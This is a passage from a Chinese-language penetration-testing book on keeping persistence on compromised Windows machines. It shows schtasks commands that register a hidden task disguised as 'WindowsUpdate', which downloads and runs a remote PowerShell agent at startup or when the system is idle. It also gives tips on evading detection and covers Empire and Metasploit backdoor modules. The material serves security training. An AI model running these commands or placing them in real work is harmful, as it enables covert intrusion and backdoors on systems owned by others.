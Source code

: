 +   同样，为了在系统启动时启动代理，运行以下命令：

    ```
    schtasks /create /tn WindowsUpdate /tr  "'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.12:90/agent.ps1'))''" /sc onstart 
    ```

+   以下命令将在系统空闲时设置启动代理：

    ```
    schtasks /create /tn WindowsUpdate /tr  "'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.12:90/agent.ps1'))''" /sc onidle /i 10 
    ```

攻击者将确保监听器始终运行并保持连接开放。为了使其在网络中合法化，服务器需要配置一个有效的 SSL 证书并运行 HTTPS，以避免触发内部安全功能（如防火墙、IPS 或代理）的警报。

使用 PowerShell Empire 工具模块`persistence/elevated/schtasks`，攻击者可以通过单行命令执行相同的任务，如*图 13.5*所示：

![](img/B17765_13_05.png)

图 13.5：在目标上创建计划任务以保持持久性

现在我们已经学会了如何利用计划任务来保持对目标的持久性，接下来我们将探讨 Metasploit 的后期利用模块。

## 使用 Metasploit 框架维持持久性

Metasploit 的 Meterpreter 包含多个支持在被攻破系统上保持持久性的脚本。我们将研究用于植入后门的后期利用模块。

### 使用后期利用持久化模块

在系统被利用并且`migrate`命令将初始 Shell 转移到更安全的服务后，攻击者可以从 Meterpreter 提示符下调用`windows/manage/persistence_exe`脚本。

在*图 13.6*所示的示例中，我们可以选择使用`REXENAME`和`REXEPATH`选项，这将在用户登录目标系统时启动持久化。

成功植入后门后，系统启动时将自动运行，执行我们设置的文件，并使用特定的 IP 地址和端口。

![](img/B17765_13_06.png)图 13.6：使用 Metasploit 的后期利用模块进行持久化植入后门
